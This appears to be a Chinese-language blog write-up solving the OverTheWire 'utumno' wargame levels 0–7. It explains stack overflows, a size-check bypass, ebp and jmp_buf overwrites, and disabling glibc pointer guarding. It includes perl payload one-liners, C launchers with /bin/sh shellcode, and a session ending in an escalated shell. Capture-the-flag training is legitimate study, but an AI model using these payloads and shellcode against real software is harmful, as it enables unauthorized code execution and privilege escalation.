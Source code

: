 ```yaml
---
title: utumno
author: rk700
layout: post
redirect_from: 
  - /writeup/2014/07/16/utumno
  - /writeup/2014/07/16/utumno/
tags:
  - OverTheWire
  - exploit
---
```

*   **utumno0**  
    和semtex4类似，这次的也是没有读权限。还是用xocopy把内容dump出来，elf地址用的是0x08048000。再用strings查看，发现类似是密码的内容

*   **utumno1**  
    会打开目录，检查包含的文件的文件名。必须要是以sh\_开头；然后漏洞在run函数里面，会把d\_name[3]的地址放到返回地址。所以把payload放在文件名sh_的后面即可。 

    把shellcode放环境变量，然后payload是跳转到那里 
    
    <pre>$ touch `perl -e 'print "1/sh_" . "\xb8\xf3\xd8\xff\xff\xff\xe0"'`
         $ /utumno/utumno1 1</pre>
    
*   **utumno2**  
    有点类似于之前的vortex4，也是要求argc为0，只能把payload放到环境变量里。argv={NULL},所以argv+40就是env[9]。我们把shellcode放到env[0]，env[9]放shellcode的地址，那么strcpy就会把返回地址重写。 
    在构造env时注意，在结束之前都不要包含NULL，否则会被认为env结束而忽略掉后面的内容 
        
{% highlight c %}
#include <stdio.h>
#include <stdlib.h>

int main (int argc, char *args[]) {
    char *env="ABCDABCDABCDABCDABCDABCD" "\xa9\xdf\xff\xff";
    char *shellcode = "SHELLCODE=\x31\xc0\x50\x89\xe2\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80";
    char *t = ""; 
    char *argv[] = {NULL};
    char *envp[] = {shellcode,t,t,t,t,t,t,t,t,env,NULL};
    //execve("././././envAddr", argv, envp);
    execve("/utumno/utumno2", argv, envp);
}
{% endhighlight %}
        
*   **utumno3**  
    这里会一个个地读字符，在v2那里可以做到修改返回地址。为此，我们找到v2和返回地址的距离是0x2c，那么往v1里填的字符就应该是0x2c^0, 0x2d^3, 0x2e^6, 0x2f^9。我试了invoke shell，但没反应，加上cat也不行；所以只好用读文件的shellcode了  
    <pre>$ perl -e 'print "\x2c\xc8\x2e\xd8\x28\xff\x26\xff"' | /utumno/utumno3</pre>
            
*   **utumno4**  
    memcpy当然存在overflow，因为复制的大小是我们提供的；虽然对大小做了个检查，但是是把大小存到short里面再比较的。由于起始位置与返回地址相距0xff0e，我们只需提供大小为0x10000，那么就可以覆盖到返回地址，并且大小检查也符合  
    <pre>$ /utumno/utumno4 65536 `perl -e 'print "A"x65294 . "\xef\xd8\xff\xff"'`</pre>
                
*   **utumno5**  
    和utumno2类似，不过问题在函数hihi里。这次检查了字符串的长度，最多只能覆盖保存的ebp，但通过修改ebp，可以使main函数返回时的`leave`跳到错误的地方，进而返回地址用我们提供的地址 

{% highlight c %}
#include <stdio.h>
#include <stdlib.h>

int main (int argc, char *args[]) {
    char *env = "\xfe\xfe\xfe\xfe\xb1\xdf\xff\xff" "AAAAAAAA" "\xf8\xdd\xff\xff";
    char *shellcode = "SHELLCODE=\x31\xc0\x50\x89\xe2\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80";
    char *t = "";
    char *argv[] = {NULL};
    char *envp[] = {shellcode,t,t,t,t,t,t,t,t,env,NULL};
    //execve("././././envAddr", argv, envp);
    //execve("././././ebpAddr", argv, envp);
    execve("././././utumno5", argv, envp);
}
{% endhighlight %}
                    
*   **utumno6**  
    malloc之后没有free，这点就很奇怪。于是通过v5=-1，可以修改v3的值为返回地址，那么接下来strcpy就可以修改返回地址了。  
    <pre>$ /utumno/utumno6 -1 0xffffd6fc `perl -e 'print "\xf4\xd8\xff\xff"'`</pre>
                        
*   **utumno7**  
    由于用的是exit，所以不能通过strcpy修改返回地址。由于jmp_buf保存在栈上，我们可以修改这个。 

    具体地，setjmp会保存寄存器 
                            
{% highlight objdump %}
(gdb) x/20i setjmp
   0xf7e4f280 <setjmp>: mov    0x4(%esp),%eax
   0xf7e4f284 <setjmp+4>:       mov    %ebx,(%eax)
   0xf7e4f286 <setjmp+6>:       mov    %esi,0x4(%eax)
   0xf7e4f289 <setjmp+9>:       mov    %edi,0x8(%eax)
   0xf7e4f28c <setjmp+12>:      lea    0x4(%esp),%ecx
   0xf7e4f290 <setjmp+16>:      xor    %gs:0x18,%ecx
   0xf7e4f297 <setjmp+23>:      rol    $0x9,%ecx
   0xf7e4f29a <setjmp+26>:      mov    %ecx,0x10(%eax)
   0xf7e4f29d <setjmp+29>:      mov    (%esp),%ecx
   0xf7e4f2a0 <setjmp+32>:      xor    %gs:0x18,%ecx
   0xf7e4f2a7 <setjmp+39>:      rol    $0x9,%ecx
   0xf7e4f2aa <setjmp+42>:      mov    %ecx,0x14(%eax)
   0xf7e4f2ad <setjmp+45>:      mov    %ebp,0xc(%eax)
   0xf7e4f2b0 <setjmp+48>:      push   $0x1
   0xf7e4f2b2 <setjmp+50>:      pushl  0x8(%esp)
   0xf7e4f2b6 <setjmp+54>:      call   0xf7e4f230 <__sigjmp_save>
{% endhighlight %}
                            
也就是说，依次保存ebx,esi,edi,ebp,处理过的esp,处理过的eip。由于处理时会和$gs:0x18做xor，这就导致结果不确定了……我试了下，确实每次运的时候，第5、6个的值都不一样。
                            
后来还是在网上搜了之后才发现的。ld.so的manual里是这么说的：
                        
> LD\_POINTER\_GUARD  
> (glibc since 2.4) Set to 0 to disable pointer guarding. Any other value enables pointer guarding, which is also the default.  
> Pointer guarding is a security mechanism whereby some pointers to code stored in writable program memory (return addresses saved by  
> setjmp(3) or function pointers used by various glibc internals) are mangled semi-randomly to make it more difficult for an attacker  
> to hijack the pointers for use in the event of a buffer overrun or stack-smashing attack. 
                        
也就是说，我们需要先 
                            
<pre>$export LD_POINTER_GUARD=0</pre>
                        
这样，每次jmp_buf里的esp和eip就不随机了，但rotation还是有的。我们用python来计算rotation 
                        
{% highlight python %}
rol = lambda val, r_bits, max_bits: \
    (val << r_bits%max_bits) & (2**max_bits-1) | \
    ((val & (2**max_bits-1)) >> (max_bits-(r_bits%max_bits)))

ror = lambda val, r_bits, max_bits: \
    ((val & (2**max_bits-1)) >> r_bits%max_bits) | \
    (val << (max_bits-(r_bits%max_bits)) & (2**max_bits-1))
{% endhighlight %}
                            

由于跳转到shellcode后，要保证栈可读可写，我们让esp还是恢复到正确的值，只是eip到环境变量里的shellcode。通过`jobs -l`获得进程的pid，再用`kill -10 pid`来发送信号。要发两次，第一次后调用strcpy，覆盖eip，等第二次信号时，跳到我们给的eip。此外，可能是jump的原因，两次信号要用不同的，正好他设了两个handler，10和12。 
                            
{% highlight bash %}
utumno7@melinda:/tmp/nabla$ /utumno/utumno7 `perl -e 'print "A"x128 . "\xfe"x16 . "\xff\x41\xaa\xff" . "\xff\xaf\xb1\xff"'`
^Z
[1]+  Stopped                 /utumno/utumno7 `perl -e 'print "A"x128 . "\xfe"x16 . "\xff\x41\xaa\xff" . "\xff\xaf\xb1\xff"'`
utumno7@melinda:/tmp/nabla$ jobs -l
[1]+  1987 Stopped                 /utumno/utumno7 `perl -e 'print "A"x128 . "\xfe"x16 . "\xff\x41\xaa\xff" . "\xff\xaf\xb1\xff"'`
utumno7@melinda:/tmp/nabla$ kill -10 1987
utumno7@melinda:/tmp/nabla$ fg
/utumno/utumno7 `perl -e 'print "A"x128 . "\xfe"x16 . "\xff\x41\xaa\xff" . "\xff\xaf\xb1\xff"'`
^Z
[1]+  Stopped                 /utumno/utumno7 `perl -e 'print "A"x128 . "\xfe"x16 . "\xff\x41\xaa\xff" . "\xff\xaf\xb1\xff"'`
utumno7@melinda:/tmp/nabla$ kill -12 1987
utumno7@melinda:/tmp/nabla$ fg
/utumno/utumno7 `perl -e 'print "A"x128 . "\xfe"x16 . "\xff\x41\xaa\xff" . "\xff\xaf\xb1\xff"'`
$ id
uid=16007(utumno7) gid=16007(utumno7) euid=16008(utumno8) groups=16008(utumno8),16007(utumno7)
{% endhighlight %}
